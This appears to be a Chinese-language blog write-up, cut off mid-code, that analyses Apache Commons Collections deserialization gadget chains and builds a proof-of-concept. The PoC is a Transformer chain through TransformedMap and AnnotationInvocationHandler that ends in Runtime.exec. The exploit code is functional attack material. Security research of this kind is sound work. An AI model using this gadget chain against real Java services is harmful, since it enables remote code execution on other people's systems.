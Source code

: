 	
其实通过分析可以找到很多调用链的，比如
InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->TreeMap.put()->CoreDocumentImpl.readObject()

还有一种比较简单的调用，直接是
InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->AnnotationInvocationHandler.readObject()

###  情况2(TransformedMap.checkSetValue)
下面针对InvokerTransformer.transform()->TransformedMap.checkSetValue()->AbstractInputCheckedMapDecorator.setValue()->AnnotationInvocationHandler.readObject()
这条调用链来构造poc:
	
	Map map = new HashMap();
	Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
	InvocationHandler handler = (InvocationHandler) getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Retention.class, transformedmap);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	
到这里并没有成功弹出计算器，当执行到AnnotationInvocationHandler.readObject()时，下面这段代码不会执行。
	
	for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
	String name = memberValue.getKey();
	Class<?> memberType = memberTypes.get(name);
	if (memberType != null) {
		// i.e. member still exists
		Object value = memberValue.getValue();
		if (!(memberType.isInstance(value) ||
			value instanceof ExceptionProxy)) {
			memberValue.setValue(
				new AnnotationTypeMismatchExceptionProxy(
				value.getClass() + "[" + value + "]").setMember(
				annotationType.members().get(name)));

要其执行要满足两个条件,memberValues不能为空，并且memberType不能为空
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
memberTypes是Retention，查找下注释Retention中的成员，发现有一个value。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/3738114.jpg)
那么memberValues只需要put一个键值对，其键为value即可，memberValues.put('value', 'xxx'),完整poc如下:
	
	public InvocationHandler getObject(final String command) throws Exception {
	final String[] execArgs = new String[]{command};
	// inert chain for setup
	// real chain for after setup
	final Transformer[] transformers = new Transformer[]{
		new ConstantTransformer(Runtime.class),
		new InvokerTransformer("getMethod", new Class[]{
		String.class, Class[].class
	}
	, new Object[]{
		"getRuntime", new Class[0]
	}
	),
		new InvokerTransformer("invoke", new Class[]{
		Object.class, Object[].class
	}
	, new Object[]{
		null, new Object[0]
	}
	),
		new InvokerTransformer("exec",
		new Class[]{
		String.class
	}